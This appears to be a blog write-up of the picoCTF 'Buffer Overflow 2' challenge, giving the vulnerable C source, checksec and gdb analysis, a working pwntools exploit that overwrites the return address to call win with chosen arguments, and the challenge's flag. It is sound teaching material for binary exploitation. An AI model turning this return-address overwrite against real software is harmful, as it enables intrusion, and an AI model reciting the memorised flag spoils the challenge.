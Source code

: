 ```yaml
---
title: "picoCTF Buffer Overflow 2"
date: 2024-08-22
permalink: /posts/2024/08/blog-post-6/
tags:
  - picoCTF
  - Buffer Overflow
  - Binary Exploitation
  - Pwntools
  - gdb
---
```


# picoCTF Buffer Overflow 2

In this problem, we are given a binary and the source code of the binary to analyse. The source code is below:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

So, we have to provide an input that overflows the “buf” buffer and upon returning jumps to “win” function to get the flag. In the “win” function, we can see that there are checks for 2 arguments. If the two arguments are of a specific value, then the flag will be printed.

Now let’s check the binary and see it’s status. Running “checksec” on the binary yields the following output:

```python
 		Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We can see that PIE is not enabled. That means the addresses of the function remains the same through different instances of the program. Now, let’s open the binary in gdb and check the stack.

Setting a breakpoint in “vuln”, we run the program and check the stack.

![image.png](/images/buf2.png)

Here, we can see that, the address 0xffffcffc contains the return address which points to an instruction of the main function. So, we need to modify this address so that it points to the “win” function.

In order to check the offset of the return address from the beginning of the buffer, we can input a large pattern as input and check the value at the address and figure out the offset. We used the cyclic tool of pwntools and generated a 120 character pattern and provided it as input. Then upon checking the value of the return address, we see that, the pattern occurs at offset 112.

![image.png](/images/buf2_1.png)

Now, we know where to put our return address. To get the return address, we can just check the disassembly of win and use its address as all the addresses are static in this binary. We get the address of 0x08049296.

Now we need to fix the arguments as without specific argument values, the flag wont be printed. We know that arguments are positioned in a function like below:

argument 1 → ebp+8

argument 2 → ebp+0xc

Here, as we are directly jumping to the function without calling it, storing the return address in the stack was not done. But the function pushes the old ebp to the stack and then the esp value is copied to ebp. So, the ebp points to the same address where we stored the return address in the vuln function because while returning from vuln, the return address is popped from stack. Now, the first argument needs to be 8 bytes away from ebp. So, we need an extra 4 bytes between the argument 1 and the return address in our payload. Finally, the exploit script looks like the following:

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 61154)

arg1 = p32(0xCAFEF00D, endian='little')
arg2 = p32(0xF00DF00D,endian='little')
win_addr = p32(0x08049296, endian='little')

payload = b'A'*112 + win_addr + b'A'*4 + arg1 + arg2

with open("payload","wb") as f:
	f.write(payload)

print(p.recvline().decode())
p.sendline(payload)
p.interactive()
```

Running the above script, we get the flag.

Flag: **picoCTF{argum3nt5_4_d4yZ_27ecbf40}**
